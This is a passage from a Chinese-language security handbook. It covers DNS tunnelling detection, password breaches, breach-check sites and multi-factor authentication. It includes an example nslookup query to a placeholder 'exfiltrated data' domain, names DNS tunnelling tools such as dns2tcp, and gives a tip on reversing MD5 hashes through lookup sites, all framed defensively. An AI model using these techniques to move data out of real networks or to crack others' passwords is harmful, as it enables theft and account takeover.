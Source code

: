 DNS 隧道查询：

```
C:\Users\Cesar> Nslookup company_exfiltrated_data123.com
Server:  dns.google
Address:  8.8.8.8
*** dns.google can't find company_exfiltrated_data123.com: Non-existent domain
```

以下是可以采取的防御措施：

+   设置监控器来跟踪 DNS 流量中的异常（这些攻击中的许多会指数级增加 DNS 查询的数量，从而外泄大量数据）。

+   分析 DNS 查询以识别异常。

    DNS 隧道工具

    有几种工具可以用于数据外泄，包括 `dns2tcp` 和 `heyoka`，还有一些其他工具用于嗅探 DNS 查询的内容，包括 `dnshunter` 和 `reassemble_dns`。

请记住，这只是您可以作为基准使用的示例列表，但还有许多其他类型的攻击在这里不会提及，但会在稍后讨论，例如物联网攻击、基于网页的攻击等。然而，记住，一个专家应该不断研究，保持更新，时刻警惕新的威胁和漏洞。

# 管理网络安全的著名痛点：密码

密码对我们的工作可能是最大的痛点。有趣的是，在过去的 14 年中，许多专家一直在说密码会消失，但尽管所有新的身份验证技术，密码仍然存在，并且可能会长期存在。因此，作为安全专家，我们需要不断寻找创新的方式来防止基于密码的攻击，这就是为什么在本章中，我们将审查最常见的攻击类型以及如何保护您和您的基础设施免受这些攻击的影响。

## 密码泄露

现在，每个月或每周几乎都可以看到新的数据泄露（暴露了数百万用户的电子邮件、用户名和密码到互联网）。因此，虽然你无法控制其他公司对你个人数据的安全级别，但你可以采取一些额外措施来防止受到这些攻击的影响。

**注意：**

如果你还没有这样做，请检查你的账户是否已经被泄露。你可以在著名网站[`haveibeenpwned.com`](https://haveibeenpwned.com)和[`dehashed.com/`](https://dehashed.com/)上进行这项检查。

在这些页面上你可以找到的一个很酷的功能是通过电子邮件、用户名甚至密码进行搜索。此外，这些网站还会告诉你一些非常有趣的信息，比如你的数据曾在哪些黑客攻击中被暴露过、用户名详细信息（如果网站使用自定义用户名而不是电子邮件）以及被泄露密码的哈希值。

### 防御措施

我曾经在是否应该添加这一步骤上犹豫不决（因为这对像你这样的专家可能是显而易见的）；然而，如果我不添加，有些人可能会指责我，所以在这里是：如果你的密码在这些网站中被发现，那么请更改你的密码（所有密码）：

+   在可用时使用或启用多因素或多步骤身份验证。

+   在可用时迁移到更强大的无密码解决方案（例如 Microsoft Authenticator）。

但是，Cesar，你不打算推荐密码保险库吗？实际上不会，因为密码保险库在这类攻击中无济于事，因为无论你的密码是*CesarRocks*还是*Iam_having-a.greattimereadingthisbookin2021*，它们都会以相同的方式泄露，作为一个看起来像这样的哈希：31b54027af2ed2299b2bd7fda556d782。

提示

想要解码哈希吗？你可以使用像[`md5hashing.net/hash`](https://md5hashing.net/hash)这样的页面，它使用哈希匹配（字典表）来解码哈希。

### 多因素与多步骤身份验证
